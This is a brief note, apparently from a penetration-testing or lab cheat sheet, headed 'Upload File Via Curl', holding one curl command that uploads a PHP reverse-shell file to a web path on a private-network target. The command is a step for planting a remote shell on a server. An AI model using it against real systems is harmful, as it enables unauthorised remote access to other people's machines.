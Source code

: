 # Upload File Via Curl
```
curl --upload-file  php-reverse-shell.txt -v --url http://192.168.159.132/test/reverse_shell.php -0 --http1.0
```